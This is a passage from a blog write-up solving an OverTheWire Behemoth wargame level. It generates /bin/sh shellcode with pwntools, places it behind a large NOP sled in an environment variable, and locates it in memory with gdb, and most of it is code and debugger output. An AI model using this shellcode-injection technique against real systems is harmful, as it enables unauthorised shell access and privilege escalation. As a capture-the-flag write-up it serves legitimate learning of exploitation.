 Great, now let's generate some shellcode and drop it in an environment variable
with a nice big `nop` sled in front of it (this is pretty similar to [a Narnia
challenge I solved
previously](http://ainterr.github.io/blog/exploits/exercises/2017/02/20/otw-narnia.html#level3)).

{% highlight bash %}
alex@orpheus ~/D/b/level2> python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> asm(shellcraft.i386.sh())
'h\x01\x01\x01\x01\x814$ri\x01\x011\xd2Rj\x04Z\x01\xe2R\x89\xe2jhh///sh/binj\x0bX\x89\xe3\x89\xd1\x99\xcd\x80'
{% endhighlight %}

{% highlight python %}
# shellcode.py
buf = '\x90'*1000
buf += 'h\x01\x01\x01\x01\x814$ri\x01\x011\xd2Rj\x04Z\x01\xe2R\x89\xe2jhh///sh/binj\x0bX\x89\xe3\x89\xd1\x99\xcd\x80'
print buf
{% endhighlight %}

{% highlight bash %}
behemoth1@melinda:/tmp/tremblingpants$ export EGG=`python shellcode.py`
{% endhighlight %}

Now we need to find where our shellcode is in memory, so we'll open it up in
`gdb` and look for our `EGG` environment variable.

{% highlight bash %}
(gdb) b main
Breakpoint 1 at 0x8048460
(gdb) r
Starting program: /games/behemoth/behemoth1 

Breakpoint 1, 0x08048460 in main ()

(gdb) x/500s $sp
...
0xffffd479:     "/games/behemoth/behemoth1"
0xffffd493:     "XDG_SESSION_ID=17064"
0xffffd4a8:     "SHELL=/bin/bash"
0xffffd4b8:     "TERM=screen"
0xffffd4c4:     "SSH_CLIENT=73.38.12.28 52202 22"
0xffffd4e4:     "SSH_TTY=/dev/pts/11"
0xffffd4f8:     "LC_ALL=C"
0xffffd501:     "EGG=", '\220' <repeats 196 times>...
0xffffd5c9:     '\220' <repeats 200 times>...
0xffffd691:     '\220' <repeats 200 times>...
0xffffd759:     '\220' <repeats 200 times>...
0xffffd821:     '\220' <repeats 200 times>...
0xffffd8e9:     "\220\220\220\220h\001\001\001\001\201\064$ri\001\001\061\322Rj\004Z\001\342R\211\342jhh///sh/binj\vX\211\343\211\321\231\315\200"
0xffffd91b:     "USER=behemoth1"
...
{% endhighlight %}


[Narnia]: http://overthewire.org/wargames/narnia/
[Behemoth]: http://overthewire.org/wargames/behemoth/
[OverTheWire]: http://overthewire.org
[BinaryNinja]: http://binary.ninja
[IDA]: https://www.hex-rays.com/products/ida/index.shtml
[Hex Rays]: https://www.hex-rays.com/products/decompiler/index.shtml
[pwndbg]: https://github.com/pwndbg/pwndbg
[PEDA]: https://github.com/longld/peda
[Voltron]: https://github.com/snare/voltron
[pwntools]: https://github.com/Gallopsled/pwntools